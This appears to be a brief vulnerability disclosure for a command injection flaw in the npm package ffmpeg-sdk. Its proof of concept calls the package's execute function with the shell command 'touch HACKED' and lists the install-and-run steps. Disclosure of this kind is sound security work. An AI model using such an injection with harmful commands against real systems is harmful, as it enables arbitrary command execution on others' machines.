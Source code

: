 # Description

Command Injection in ffmpeg-sdk

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var root = require("ffmpeg-sdk");
root.execute("touch HACKED");
```

2. Execute the following commands in terminal:

```
npm i ffmpeg-sdk # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output using ls command before and after the execution.

